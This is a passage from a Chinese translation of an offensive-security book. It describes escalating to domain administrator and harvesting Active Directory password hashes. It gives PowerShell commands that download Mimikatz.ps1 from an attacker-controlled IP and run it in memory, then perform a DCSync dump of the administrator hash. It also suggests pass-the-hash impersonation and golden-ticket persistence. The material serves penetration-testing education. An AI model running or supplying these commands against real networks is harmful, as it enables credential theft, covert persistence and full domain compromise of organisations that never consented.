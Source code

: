 adm\_supreme 用户名前的小星星表明提权成功。 在我们亲爱的adm\_supreme的用户名前面的小星星意味着它是一个提升的会话。我们可以使用此会话在工作站上设置持久化和其他特权操作。

## 4.5 更多密码

总的来说，我们拿下了一个域管理员帐户，这已经足以造成严重破坏了。但是，如果该管理员更改了密码，会发生什么呢？根据我们已经掌握的访问权限，能否在尽量隐蔽的前提下获取到更多密码呢？

答案就在 NTDS.DIT 文件中：它是 AD 的数据库，存储了配置方案、资源定义以及所有用户密码的哈希值，它会在每个域控制器上存储和复制。

导出和分析该文件的过程非常慢。在实际攻击中，我们只需要拿到几个特定用户的密码。通过利用AD的复制机制缺陷可以拿到这些哈希值。预控可以交换用户的哈希值，以相互之间委派身份验证。通过伪装成预控， Mimikatz 可以请求任意用户的密码哈希值。

下面的命令会请求域管理员的密码哈希值：

```text
PS> $browser = New-Object System.Net.WebClient
PS> IEX($browser.DownloadString("http://192.168.1.90:443/Mimikatz.ps1"))
PS> invoke-mimikatz -Command '"lsadump::dcsync/domain:sph.corp /user:administrator"'
```

![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.5-1.jpg)

使用此帐号，我们将不再被UAC束缚!对每个看起来有价值的的域帐户都执行一次该命令，拿到哈希值，从而可以通过 pass the hash 攻击来冒充这些用户。

提示:一种有趣的持久化技术是生成黄金票据\(Kerberos票据，有效期为10年\)。查看:[http://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos。](http://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos。)

> 翻译：Regina9Li 2019/10/27 校对：xncoder 2019/11/25

